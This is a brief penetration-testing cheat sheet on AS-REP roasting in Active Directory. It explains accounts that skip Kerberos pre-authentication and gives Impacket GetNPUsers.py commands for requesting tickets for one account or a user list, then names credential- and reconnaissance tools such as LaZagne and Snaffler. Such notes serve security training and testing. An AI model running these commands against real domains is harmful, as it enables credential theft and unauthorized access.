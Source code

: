 ### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

#### Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -userfile /tmp/list.txt

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt
